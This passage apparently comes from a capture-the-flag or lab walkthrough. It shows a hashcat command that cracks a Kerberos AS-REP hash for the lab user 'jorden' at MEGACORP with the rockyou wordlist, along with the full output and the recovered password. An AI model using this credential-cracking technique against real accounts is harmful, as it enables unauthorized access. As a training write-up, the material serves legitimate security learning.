 Now we can crack the hash using hashcat.

```bash
.\hashcat64.exe -m 18200 jorden.hash rockyou.txt
hashcat (v5.1.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1070, 2048/8192 MB allocatable, 15MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Temperature abort trigger set to 90c

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$jorden@MEGACORP:bf2ccdb347ff395a1d6a7ea9248121b8$43c4a929a6fb3917a04c33a329acbd59667aa84c134a38eaeb2d962e542280525c197345e46c5562afb57a5fae3d09e514979dc39a152011e986e44d642ba9c39dc602006611e03af1a281fe2433b0cdfccd2589b5c722404a2c76d0eea7a219d0a7f5a8c73a492a36510e498f3b0cd49abde7d1b36168bbfc68a385544676d5960a1233baefd0649bf554a6bc943cd37bda7239c97bb35026d7ea7203aa977bdc4fc83f605a598de1c69bb6ccbb856996cb2a560b3f9961732d7464395c60666638c9d8ef450c401d40c1b377287cffc9ae221852c6498249144ee25e7fdb78eba780097392804de935:rainforest786

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$jorden@MEGACORP:bf2ccdb347ff395a1d6a7...4de935
Time.Started.....: Thu Jun 11 20:40:50 2020 (0 secs)
Time.Estimated...: Thu Jun 11 20:40:50 2020 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  9502.4 kH/s (6.72ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4423680/14344385 (30.84%)
Rejected.........: 0/4423680 (0.00%)
Restore.Point....: 3932160/14344385 (27.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: seaford123 -> raain
Hardware.Mon.#1..: Temp: 50c Fan:  0% Util: 20% Core:2025MHz Mem:4104MHz Bus:16

Started: Thu Jun 11 20:40:46 2020
```